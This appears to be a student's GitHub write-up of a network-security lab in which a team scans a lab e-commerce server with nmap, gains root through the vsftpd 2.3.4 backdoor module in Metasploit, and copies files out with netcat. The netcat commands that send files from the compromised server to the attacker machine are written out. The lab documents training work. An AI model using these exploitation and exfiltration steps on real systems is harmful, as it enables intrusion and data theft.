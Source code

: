 # Network-Security

In this project I and other team members attacked a server using various security tools and tactics. Through this project, we learned how security breaches occur and how to defend systems and networks.

During this endeavor we used two virtual machines in a VLAN. The first was a Kali box and the second was an ecommerce server. Using Kali, we attacked the server and tested its defense mechanisms. While completing the exercise, we were to assume that the e-commerce server was not visible and therefore we did not attempt to log in.

## Injection Number 1

In injection one we were tasked with creating a security policy and introducing the team to the instructor. The security policy and team introduction we wrote can be found here: https://github.com/TristanJRogers/Network-Security/blob/main/Injection%201.docx 

## Injection Number 2

In injection two the team and I were tasked with the following. 

1. Scan the network to find find the IP address of the e-commerce server
2. Scan the e-commerce server and detect the version of the services that were running

For task 1 the team and I used NMAP to scan the entire subnet. In the picture below you will see a hit for 192.168.1.1 which was most likely a router and a hit for 192.168.1.220. We were able to identify 192.168.1.220 as the e-commerce server due to port 80 and port 3306 being open along with the url given in the scan.

![image](https://github.com/user-attachments/assets/22d9fa04-afaa-47dc-bad0-0d3e0be807d4)

For task 2 we used the command nmap -sV on the e-commerce servers IP to display the version of all services open on the e-commerce server. 

![image](https://github.com/user-attachments/assets/0e3b9e18-2af9-4d05-b8a8-42ea459a58e7)

## Injection Number 3

In injection three the team was tasked with breaking into the server using Metasploit

Using the versions of services running on the e-commerce server, we saw that the FTP service it was running had a backdoor vulnerability. We used the (unix/ftp/vsftpd_234_backdoor) exploit on the e-commerce server and were able to gain a access. 

![image](https://github.com/user-attachments/assets/1c4a3094-ca7b-4c50-9f62-5a347c6a85c9)

Finally, to prove we had root access we used the commands whoami, id, pwd, and ls. See the output below. 

![image](https://github.com/user-attachments/assets/1c4ddbf0-5961-4f41-ba46-b0869da00cff)

## Injection Number 4

In injection number four we were tasked with tasked with transferring three files in from the e-commerce server to our kali machine via Netcat. 

We used the command "nc -v 192.168.1.7 69 <insert file name>" on the ecommerce server and command nc-v -l -p69 > <insert file name> on the kali machine

E-commerce server
![image](https://github.com/user-attachments/assets/28e2c63e-8225-42e2-807c-e403169fb9f2)

Kali machine
![image](https://github.com/user-attachments/assets/d6e0b2df-d472-4d74-ab7b-aa38863df461)

For the final results you will see that in the screenshot below, the files were successfully transferred to our kali machine. 
![image](https://github.com/user-attachments/assets/0585b8fc-a4f7-4c6a-97e5-13a897a44ac0)











